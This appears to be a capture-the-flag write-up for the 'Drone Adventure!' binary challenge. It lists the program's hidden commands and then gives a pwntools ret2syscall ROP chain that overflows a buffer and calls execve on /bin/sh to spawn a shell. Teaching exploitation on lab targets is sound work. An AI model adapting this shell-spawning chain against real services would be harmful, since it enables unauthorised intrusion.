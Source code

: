 # Write-Up: Drone Adventure!

The binary source code is in [drone.c](drone.c). You can notice in the [Makefile](Makefile) that we used tigress to obfuscate the binary. However, picking up the commands should still be fairly easy to discover using strings.

```
> strings drone.bin | awk 'length($0) == 4 && $0 ~ /^[A-Z]+$/'
MOVE
BRKS
SCAN
RECD
LIGH
ARMX
SIGN
TRNS
CAMO
STOP
SAFE
SAMP
SENS
DEPL
TURN
CLAW
```

After that you can play with the commands for a little bit until you discover vulnerabilities. There are exploitable paths through ``ARMX, BRKS, CAMO, CLAW, RECVD, SAMP, SIGN, STOP`` commands. You can discover them with AFL++ or just hand jam around and find them. In some cases, you only get one gadget - at which point you can just call ``deprecated_feedback`` and them re-exploit yourself with a larger chain.

All the gadgets should exist to ``ret2syscall`

```python
    pop_rdx_rcx = r.find_gadget(["pop rax", "pop rdx", "pop rcx", "ret"])[0]
    pop_rdi_rsi = r.find_gadget(["pop rdi", "pop rsi", "syscall"])[0]
    sh = next(e.search(b"/bin/sh\0"))
    log.info(f"Pop rax, rdx, rcx, retgadget: {hex(pop_rdx_rcx)}")
    log.info(f"Pop rdi, rsi, syscall gadget: {hex(pop_rdi_rsi)}")
    log.info(f"sh: {hex(sh)}")

    chain = cyclic(264)
    chain += p64(pop_rdx_rcx)
    chain += p64(0x3B)  # rax = 0x3b
    chain += p64(0x0)  # rcx = 0
    chain += p64(0x0)  # rdx = 0
    chain += p64(pop_rdi_rsi)
    chain += p64(sh)  # rdi = sh
    chain += p64(0x0)

    p.recvuntil(b">>>")
    p.sendline(chain)
```
